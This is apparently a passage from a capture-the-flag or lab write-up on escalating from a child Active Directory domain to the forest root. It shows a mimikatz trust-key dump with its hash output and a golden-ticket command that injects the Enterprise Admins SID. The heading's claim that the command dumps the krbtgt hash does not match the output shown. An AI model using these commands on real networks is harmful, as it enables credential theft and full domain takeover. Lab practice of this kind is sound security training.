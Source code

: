 ```output


```

Dumping ntds.dit to get the krbtgt hash by using `mimikatz`
```bash
lsadump::trust /patch

```

## OUTPUT
```output
mimikatz # lsadump::trust /patch

Current domain: LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)

Domain: TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591)
 [  In ] LAB.TRUSTED.VL -> TRUSTED.VL
    * 9/29/2025 6:13:01 AM - CLEAR   - 44 53 0d bd a5 26 ac b3 80 e1 0f 85 8b 2b d2 15 62 9c b8 25 63 46 1f 49 9a 99 71 8e 3c 87 2c e2 2e e7 66 52 c7 fc 66 77 c9 be a1 d0 64 5f b2 50 a7 75 35 f0 d6 a1 25 85 72 91 a4 c8 dc b3 55 1d b6 10 3e 24 10 4b 11 0d e6 7e 4c 2c fe b5 79 0a 37 43 14 d3 dd 5e 2c 6f 92 de 4c 3e 6a ec ea dc dc 85 34 c9 9b 59 f9 b7 03 4a d8 ef d6 92 1e f0 bd ca 8d f2 93 e4 60 bd 51 08 05 6d e3 2e cf a3 3c 3b 45 01 20 ef 18 17 4b 3b f3 64 c6 83 a7 ac 3f c2 10 53 44 27 57 d9 7d e5 a1 2c ac c6 98 c1 53 fc df 17 f4 93 9d 65 1b 89 6d 95 1a e3 93 9c 89 17 1d db e4 e5 f5 5b f4 6b 69 29 a3 ac 72 a9 94 b0 d0 e1 eb 5d f2 e7 b4 91 d7 36 e7 83 0b 94 e5 b7 aa 29 f4 53 b9 9b 33 b4 4a 83 25 75 3e de 8b 48 e1 d0 0f 3d ef fb 93 75 1e ea 16 be ab d3 
        * aes256_hmac       c04e56a3f6cd667828a2849e9f1a11121214a1b86b998ae119a1878aa20fe06a
        * aes128_hmac       af7b68e8eb0ee92cd4264bf236a821c4
        * rc4_hmac_nt       2759dae8b9b483a9081ea43cd3dd87c9



```


we will add 519 to our enterprise sid
## Common Enterprise Privilege RIDs:

|RID|Group|Scope|
|---|---|---|
|**519**|**Enterprise Admins**|**Entire Forest** 🌲|
|518|Schema Admins|Entire Forest|
|512|Domain Admins|Single Domain|
|520|Group Policy Creator Owners|Single Domain|




Now forging a ticket for enterprise domain admin
```bash
kerberos::golden /user:Administrator /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt

```
